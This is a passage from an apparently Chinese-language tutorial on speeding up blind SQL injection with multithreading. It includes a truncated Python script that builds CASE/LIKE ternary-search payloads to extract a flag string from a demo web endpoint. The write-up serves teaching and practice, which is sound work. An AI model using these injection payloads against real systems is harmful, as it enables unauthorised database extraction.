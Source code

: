 執行的結果如圖：

![](/img/sql-injection-in-action/p3.png)

跑了 45 秒，比剛剛的做法又快了一倍。

### 最後的加速：多執行緒

前面我們都是等一個 request 回來才發下一個，但其實可以用多執行緒同時去發 request，例如說每一個 thread 固定去猜一個位置的值，速度應該能快上不少。

雖然需要嘗試的次數是一樣的，但每秒嘗試的次數變多了，所以整體秒數自然也變少了。

底下是簡單實作的程式碼，需要先知道最後字串的長度，要再做精緻一點就是先搜出要撈的資料長度，然後再去撈資料本身：

``` python
# exploit-search-thread.py
import requests
import time
import json
import urllib.parse
import concurrent.futures

def print_success(raw):
  print(f"\033[92m{raw}\033[0m")

def encode(raw):
  return urllib.parse.quote(raw.encode('utf8'))

host = 'https://od-php.herokuapp.com/sql'
char_index = 0
char_set = '}abcdefghijklmnopqrstuvwxyz_'
flag = 'cymetrics{'

def get_char(index):
  L = 0
  R = len(char_set) - 1
  prefix = flag + "_" * index
  while L<=R:
    s = (R-L) // 3
    ML = L + s
    MR = L + s * 2
    if s == 0:
      MR = L + 1

    group = [
      char_set[L:ML],
      char_set[ML:MR],
      char_set[MR:R+1]
    ]

    conditions = []
    for i in range(0, 3):
      if len(group[i]) == 0:
        conditions.append("1=2")
        continue
      arr = [f"(content like '{prefix}{chr(92) + c if c == '_' else c}%')" for c in group[i]]
      conditions.append(" or ".join(arr))

    payload = f'''
    (select case
      when ({conditions[0]}) then 1  
      when ({conditions[1]}) then 2  
      when ({conditions[2]}) then 5
      else 10
    end from flag)
    '''
```